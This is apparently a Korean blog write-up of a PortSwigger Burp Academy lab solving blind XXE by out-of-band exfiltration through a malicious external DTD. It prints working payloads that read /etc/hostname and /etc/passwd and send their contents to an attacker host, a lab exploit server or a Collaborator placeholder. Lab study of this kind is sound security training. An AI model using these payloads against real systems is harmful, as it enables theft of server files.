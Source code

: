 ```yaml
---
layout: post
title: "Burp Academy 문제풀이 - Exploiting blind XXE to exfiltrate data using a malicious external DTD"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, XXE]
toc: true
---
```


# 개요
- Blind XXE 문제인데 XML의 파라메터 엔터티(Parameter Entity)를 통해 out-of-band 통신을 발생시키는 예제로 보인다. 
- 문제 주소: https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration


- 블라인드 XXE 설명 주소: https://portswigger.net/web-security/xxe/blind
- 난이도: PRACTITIONER (중간)

# 문제분석
- 이전 문제들과 마찬가지로 "Check stock" 기능을 통해 XML 을 삽입할 수 있다. 
- `/etc/hostname` 파일의 내용을 얻어내면 된다. 
- 내용을 HTTP 응답으로 직접확인할 수는 없다. Blind XXE를 응용해야 한다. 
```
This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, exfiltrate the contents of the /etc/hostname file.

Note
To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use the provided exploit server and/or Burp Collaborator's default public server.
```


# 준비
## exploit server
이 문제부터는 exploit server 가 등장한다. 다음과 같이 특정 경로 요청에 대해 어떤 응답을 보낼지를 설정할 수 있다. 

![exploit server](/images/burp-academy-exploit-servser.png)



# 1차 시도 
우선 Parameter 엔터티로 `/etc/hostname` 을 접근할 수 있는지 확인해본다. 
```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<stockCheck>
	<productId>%file;</productId>
	<storeId>1</storeId>
</stockCheck>
```

안된다. XML 파싱에러가 발생했다. 
```
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 19

"XML parsing error"
```

## 2차 시도 
XXE 설명 페이지를 보면 다음 페이로드가 소개되어 있다. 

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

- `&#x25;` 는 HTML 디코드하면 `%` 이다. 
- /etc/passwd의 내용을 file 이라는 이름의 파라메터 엔터티에 저장해둔다. 
- eval이라는 이름의 파라메터 엔터티에 다이내믹 선언한 exfiltrate 라는 파라메터 엔터티의 값을 저장해둔다. 
- exfiltrate 엔터티는 HTTP 요청을 공겨자의 웹 서버에 file 엔터티의 내용을 URL 쿼리 스트링으로 함께 보낸다. 

이 것을 다음과 같이 바꿔서 보냈다. 

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'https://exploit-0ae8003e0426eb73c02fa82501bd002e.exploit-server.net/?x=%file;'>">
%eval;
%exfiltrate;
```

보안 이유 때문에 Entity 는 사용할 수 없다는 응답이 돌아왔다. 
```
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 47

"Entities are not allowed for security reasons"
```

## 3차 시도 
여기서 부터는 잘 모르겠다. 정답을 봤다. 

# 해답
이 문제를 풀려면 Burp Collaborator와 통신이 가능한 Burp Suite Professional 버전이 필요하다. 

- STEP 1. Burp Suite Professional에서 Burp Collaborator 탭으로 이동한다. 
- STEP 2. "Copy to clipboard" 를 이용해 유니크한 Burp Collaborator 페이로드를 복사해둔다. 
- STEP 3. 다음 DTD 파일의 BURP-COLLABORATOR-SUBDOMAIN 을 복사한 페이로드로 바꾼다. 

```xml 
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;
```

- STEP 4. exploit server 로 이동해서 위의 DTD 파일을 응답 Body 부분에 저장한다. 
- STEP 5. 유저가  "Check stock" 버튼을 눌렀을 때의 POST 요청 바디 부분을 다음과 같이 바꾼다. 

```xml 
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
```

- STEP 6. Burp Suite Professional에서 Burp Collaborator 탭에서 "Poll now" 를 클릭한다. 
- STEP 7. 조금 기다리면 Burp Collaborator 서버로 통신한 DNS와 HTTP 통신이력이 보인다. HTTP 통신에 /ect/hostname 파일의 내용이 보인다. 

전체적인 구성도를 그려보면 다음과 같다고 생각된다.

![구성도](/images/burp-academy-xxe-5-diagram.png)